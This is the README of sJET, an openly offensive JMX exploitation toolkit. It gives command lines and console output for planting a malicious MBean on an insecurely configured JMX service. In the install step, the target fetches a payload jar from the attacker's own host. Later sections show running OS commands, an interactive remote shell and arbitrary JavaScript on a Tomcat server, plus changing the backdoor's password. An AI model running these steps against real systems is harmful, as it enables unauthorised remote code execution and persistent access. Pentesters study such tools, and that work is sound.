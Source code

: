# sJET by siberas

siberas JMX Exploitation Toolkit

sJET allows an easy exploitation of insecure configured JMX services. Additional background
information can be found [here](https://www.optiv.com/blog/exploiting-jmx-rmi) and [here](https://www.owasp.org/images/c/c1/JMX_-_Java_Management_Extensions_-_Hans-Martin_Muench.pdf).

## Prerequisites

* [Jython 2.7](http://www.jython.org/)

## Usage

SJET implements a CLI interface (using [argparse](https://docs.python.org/3/library/argparse.html)):

```
jython sjet.py targetHost targetPort password MODE (modeOptions)
```
Where

* **targetHost** -  the target IP address
* **targerPort** - the target port where JMX is running
* **password** - the password that is/was set during installation
* **MODE** - the script mode
* **modeOptions** - the options for the mode selected

### Modes and modeOptions

* **install** - installs the payload in the current target
  * *payload_url* - full URL to load the payload
  * *payload_port* - port to load the payload
* **uninstall** - uninstalls the payload from the current target
* **password** -  change the password on a already deployed payload
  * *password* - the new password
* **command** -  runs the command *CMD* in the targetHost
  * *CMD* - the command to run
* **shell** - starts a simple shell in targetHost (with the limitations of java's Runtime.exec())
* **javascript** - runs a javascript file *FILENAME* in the targetHost
  * *FILENAME* - the javascript to be run


## Example


### Installing the payload MBean on a vulnerable JMX service

In the following example, the vulnerable JMX service runs on the 192.168.11.136:9991, the attacker has
the IP address 192.168.11.132. The JMX service will connect to the web service of the attacker to download
the payload jar file. sJET will start the necessary web service on port 8000.

After the successful installation of the MBean, the default password is changed to the password that was provided
at the command line ("super_secret").

```
h0ng10@rocksteady:~/sjet$ jython sjet.py 192.168.11.136 9991 super_secret install http://192.168.11.132:8000 8000
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Starting webserver at port 8000
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.11.136:9991/jmxrmi
[+] Connected: rmi://192.168.11.132  1
[+] Loaded javax.management.loading.MLet
[+] Loading malicious MBean from http://192.168.11.132:8000
[+] Invoking: javax.management.loading.MLet.getMBeansFromURL
192.168.11.136 - - [22/Aug/2017 22:38:00] "GET / HTTP/1.1" 200 -
192.168.11.136 - - [22/Aug/2017 22:38:00] "GET /siberas_mlet.jar HTTP/1.1" 200 -
[+] Successfully loaded MBeanSiberas:name=payload,id=1
[+] Changing default password...
[+] Loaded de.siberas.lab.SiberasPayload
[+] Successfully changed password

h0ng10@rocksteady:~/sjet$
```

### Running the command 'ls -la' in a Linux target:

After the payload was installed, we can use it to execute OS commands on the target.

```
h0ng10@rocksteady:~/sjet$ jython sjet.py 192.168.11.136 9991 super_secret command "ls -la"
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.11.136:9991/jmxrmi
[+] Connected: rmi://192.168.11.132  2
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing command: ls -la
total 16
drwxr-xr-x  4 root    root    4096 Aug 22 16:12 .
drwxr-xr-x 66 root    root    4096 Aug 22 16:12 ..
lrwxrwxrwx  1 root    root      12 Mär 29 01:46 conf -> /etc/tomcat8
drwxr-xr-x  2 tomcat8 tomcat8 4096 Mär 29 01:46 lib
lrwxrwxrwx  1 root    root      17 Mär 29 01:46 logs -> ../../log/tomcat8
drwxrwxr-x  3 tomcat8 tomcat8 4096 Aug 22 16:12 webapps
lrwxrwxrwx  1 root    root      19 Mär 29 01:46 work -> ../../cache/tomcat8


[+] Done
h0ng10@rocksteady:~/sjet$
```
### Running ping in shell mode on a target

If you don't want to load Java for every command, you can use the "shell mode"
to get a limited command shell.

```
h0ng10@rocksteady:~/sjet$ jython sjet.py 192.168.11.136 9991 super_secret shell
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.11.136:9991/jmxrmi
[+] Connected: rmi://192.168.11.132  3
[+] Use command 'exit_shell' to exit the shell
>>> ping -c 3 127.0.0.1
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing command: ping -c 3 127.0.0.1
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.075 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.046 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.044 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2050ms
rtt min/avg/max/mdev = 0.044/0.055/0.075/0.014 ms


>>> exit_shell
[+] Done
h0ng10@rocksteady:~/sjet$
```

### Invoke a JavaScript payload on a target:

The example script "javaproperties.js" displays the Java properties of the vulnerable
service. It can be invoked as follows:

```
h0ng10@rocksteady:~/sjet$ jython sjet.py 192.168.11.136 9991 super_secret javascript scripts/javaproperties.js
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.11.136:9991/jmxrmi
[+] Connected: rmi://192.168.11.132  4
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing script
java.vendor=Oracle Corporation
sun.java.launcher=SUN_STANDARD
catalina.base=/var/lib/tomcat8
sun.management.compiler=HotSpot 64-Bit Tiered Compilers
catalina.useNaming=true
os.name=Linux
...
java.vm.name=OpenJDK 64-Bit Server VM
file.encoding=UTF-8
java.specification.version=1.8


h0ng10@rocksteady:~/sjet$
```

### Change the password

Change the existing password ("super_secret") to "this-is-the-new-password":

```
h0ng10@rocksteady:~/sjet$ jython sjet.py 192.168.11.136 9991 super_secret password this-is-the-new-password
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.11.136:9991/jmxrmi
[+] Connected: rmi://192.168.11.132  6
[+] Loaded de.siberas.lab.SiberasPayload
[+] Successfully changed password

[+] Done
h0ng10@rocksteady:~/sjet$
```

### Uninstall the payload MBean from the target


Uninstall the payload 'Siberas' from the target:

```
minmaxer@prellermbp:~/sjet$ jython sjet.py 192.168.1.101 9010 super_secret uninstall
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.1.101:9010/jmxrmi
[+] Connected: rmi://192.168.1.1  16
[+] MBean correctly uninstalled
minmaxer@prellermbp:~/sjet$
```
	

## Contributing

Feel free to contribute.

## Authors

* **Hans-Martin Münch** - *Initial idea and work* - [h0ng10](https://twitter.com/h0ng10)
* **Patricio Reller** - *CLI and extra options* - [preller](https://github.com/preller)

See also the list of [contributors](https://github.com/h0ng10/sjet/graphs/contributors) who participated in this project.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
